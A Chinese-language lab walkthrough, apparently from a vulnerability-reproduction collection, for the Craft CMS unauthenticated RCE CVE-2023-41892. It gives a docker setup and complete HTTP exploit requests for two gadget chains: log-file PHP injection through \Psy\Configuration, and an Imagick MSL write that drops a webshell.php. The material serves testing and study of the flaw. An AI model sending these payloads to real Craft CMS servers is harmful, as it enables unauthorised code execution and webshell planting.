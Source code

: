 # CraftCMS未授权远程代码执行漏洞（CVE-2023-41892）

Craft CMS是一个灵活、用户友好的内容管理系统，用于在Web上创建自定义的数字体验。它为用户提供了一个后端界面来实现网站并配置CMS。

Craft CMS 4.4.0至4.4.14版本中存在一个远程代码执行漏洞。未经身份验证的攻击者可以通过`ConditionsController`实现远程代码执行。该漏洞存在于控制器的`beforeAction`方法中，由于输入验证不足，攻击者可以利用该漏洞创建任意对象并实现代码执行。

参考链接：

- <https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g>
- <https://blog.calif.io/p/craftcms-rce>
- <https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

## 环境搭建

执行如下命令启动一个存在漏洞的Craft CMS 4.4.14环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8088/admin/install`即可看到CraftCMS的安装页面。请按照页面提示完成安装，默认数据库地址为`db`，用户名和密码均为`root`。

![](1.png)

## 漏洞复现

漏洞的根本原因是攻击者可以通过PHP对象注入发送特制的HTTP请求来创建任意对象。通过链接代码库中的多个gadget，攻击者可以实现远程代码执行。

有两种常用的gadget组合可以实现远程代码执行。

### Gadget 1：使用`craft\elements\conditions\users\UserCondition`和`\Psy\Configuration`

这个gadget需要服务器开启日志记录功能，该功能默认是开启的。

首先，发送一个包含语法错误的JSON的POST请求，将payload写入日志文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}
```

![](2.png)

然后，通过`\Psy\Configuration` gadget包含日志文件来触发远程代码执行（请将`2025-03-31`替换为当前日期）：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
  "config": {
    "name": "test",
    "as xyz": {
      "class": "\\Psy\\Configuration",
      "__construct()": {
        "config": {
          "configFile": "../storage/logs/web-2025-03-31.log"
        }
      }
    }
  },
  "test": "craft\\elements\\conditions\\users\\UserCondition"
}
```

![](3.png)

如图所示，PHPINFO成功执行。

### Gadget 2：使用`craft\elements\conditions\users\UserCondition`和内置的`Imagick`类

如果服务器启用了Imagick扩展，可以使用`Imagick`类的MSL格式来写入任意文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY

------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"

craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"

test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"

imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"

vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="caption:&lt;?=phpinfo();?&gt;"/>
  <write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
```

这个payload会执行类似`new Imagick('vid:msl:/tmp/php*');`的PHP代码，并导致"Segmentation fault"错误，使线程崩溃：

![](4.png)

但是`webshell.php`文件已经成功写入：

![](5.png)

成功利用漏洞后，攻击者将能够以Web服务器用户的权限在目标系统上执行任意命令。 